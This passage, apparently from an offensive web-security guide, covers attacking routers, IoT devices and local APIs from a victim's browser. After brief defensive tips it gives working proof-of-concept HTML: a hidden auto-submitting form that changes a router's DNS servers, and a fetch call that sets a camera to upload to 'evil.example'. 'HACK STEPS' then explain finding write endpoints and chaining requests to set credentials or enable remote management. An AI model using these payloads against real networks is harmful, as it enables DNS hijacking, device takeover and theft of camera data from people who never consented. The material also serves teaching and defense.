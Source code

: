 ### Modern Limits

* Browsers block requests to some **privileged ports**, but common web ports are fair game.
* **Service Workers** do not help here; subresource loads bypass their scope for cross-origin IPs.

### Defenses

* Place admin UIs on **non-routable subnets/VPN**.
* Require **mutual TLS** or **local auth tokens** not sent by the browser by default.
* **CORS preflight + Origin checks** on local APIs; block unauthenticated subresource requests.

---

## 5) Attacking Other Network Hosts (Routers / IoT / Local APIs)

Once you know a host/port is up, you can attempt **CSRF/unauth** actions even without reading responses.

### PoC: Blind CSRF to change router DNS

```html
<form id="pwn" action="http://192.168.1.1/apply.cgi" method="POST" target="hidden">
  <input name="dns1" value="1.2.3.4">
  <input name="dns2" value="1.2.3.5">
  <input name="apply" value="Save">
</form>
<iframe name="hidden" style="display:none"></iframe>
<script> document.getElementById('pwn').submit(); </script>
```

### PoC: JSON API without CSRF tokens (IoT cam)

```html
<script>
fetch('http://192.168.0.50/api/config', {
  method: 'POST',
  mode: 'no-cors',        // fire-and-forget
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({ cloudUpload: true, url: 'https://evil.example/upload' })
});
</script>
```

### HACK STEPS

1. Identify **write endpoints** from vendor docs, Shodan templates, or fingerprints.
2. Try **GET with query params** and **POST form/json**.
3. Use **iframes/forms** for endpoints that reject `fetch` due to CORS.
4. Chain multiple requests (timed) to set creds, enable remote mgmt, or reboot.

### Modern Limits
